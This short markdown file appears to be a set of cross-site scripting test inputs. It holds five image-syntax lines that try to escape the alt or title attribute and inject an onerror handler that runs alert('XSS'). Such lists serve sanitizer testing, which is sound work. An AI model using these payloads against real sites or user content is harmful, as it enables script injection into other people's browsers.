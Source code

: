 ![alt" onerror="alert('XSS')](https://example.com)
![alt' onerror='alert("XSS")](https://example.com)
![alt`onerror=`alert('XSS')](https://example.com)
![alt"](https://example.com)onerror="alert('XSS'))
![](https://example.com "title" onerror="alert('XSS')")